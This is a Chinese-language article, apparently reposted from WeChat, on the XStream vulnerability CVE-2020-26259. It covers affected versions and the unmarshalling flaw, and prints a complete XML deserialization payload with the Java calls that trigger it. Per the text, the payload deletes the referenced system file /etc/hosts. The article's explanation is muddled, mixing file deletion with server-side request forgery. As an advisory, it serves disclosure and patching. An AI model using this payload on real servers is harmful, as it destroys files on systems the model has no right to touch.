 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ODSLnxUdwRKp24hxSHAfMg)

                    ![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3SribmxhsVoQiaKygOs2NzUzlUibJcIYCLcn317tRgrHWLoYkPUwkT3hmRB1VxNmTfjRCeLUZPuarKg/640?wx_fmt=png)

        CVE-2020-26259：如果执行过程具有足够的权限，则在解组时 XStream 容易受到本地主机上任意文件删除的攻击。

受影响的版本：

            如果使用现成的版本，则直到 1.4.14（包括 1.4.14）的所有版本都将在包含 JAX-WS 运行时的 Java 环境中运行。没有用户受到影响，他们遵循建议使用白名单设置 XStream 的安全框架。

漏洞描述：

            在解组时处理的流包含类型信息以重新创建以前写入的对象。因此，XStream 基于这些类型信息创建新的实例。攻击者可以操纵处理后的输入流并替换或注入对象，从而导致服务器端进行伪造请求。

POC：  

该漏洞可能允许远程攻击者仅通过处理已处理的输入流来从不公开可用的内部资源中请求数据。

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/etc/hosts</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
XStream xstream = new XStream();
xstream.fromXML(xml);
```

        创建一个简单的 HashMap 并使用 XStream 将其封送为 XML。用以下代码片段替换 XML，然后用 XStream 重新解组它。一旦解组 XML，就会执行有效负载并删除引用文件。

注意，此示例使用 XML，但是可以针对任何受支持的格式（例如 JSON）执行攻击。

请参考：

https://x-stream.github.io/CVE-2020-26259.html